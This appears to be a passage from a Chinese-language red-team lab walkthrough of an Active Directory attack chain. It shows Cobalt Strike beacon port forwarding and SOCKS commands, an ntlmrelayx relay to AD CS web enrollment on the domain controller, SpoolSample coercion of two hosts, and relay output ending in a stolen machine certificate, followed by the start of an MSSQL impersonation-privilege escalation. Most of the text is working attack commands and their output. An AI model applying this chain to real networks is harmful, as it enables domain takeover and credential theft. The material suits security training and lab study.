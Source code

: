 beacon> rportfwd 8445 127.0.0.1 445
[+] started reverse port forward on 8445 to 127.0.0.1:445

beacon> socks 1080
[+] started SOCKS4a server on: 1080
```


在kali上开启NTML relaxy
```
root@kali:~# proxychains ntlmrelayx.py -t http://10.10.15.75/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```

注意10.10.15.75 是 DC-1.

强制 WKSTN-3（10.10.15.254）和SRV-1（10.10.17.25）进行身份验证
```
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe 10.10.15.254 10.10.17.25
```

此时，在kali上将收到验证的tgt
```
[*] SMBD-Thread-4: Connection from CYBER/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.15.75
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
 ...  OK
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] SMBD-Thread-4: Connection from CYBER/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.15.75
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] GOT CERTIFICATE! ID 5
[*] Base64 certificate of user WKSTN-3$:
MIIQ3Q[...snip...]NzkQ==
```

得到tgt后再使用```S4U2self```（参考015-kerberos那章）技巧代表任何用户为机器上的任何服务获取 TGS



# MS SQL Privilege Escalation

因为当前mssql实例是以```NT Service\MSSQL$SQLEXPRESS```用户身份运行的，此用户有```SeImpersonatePrivilege```能力，这个能力众所周知可以使用各种土豆来提权。

```
beacon> getuid
[*] You are NT Service\MSSQL$SQLEXPRESS
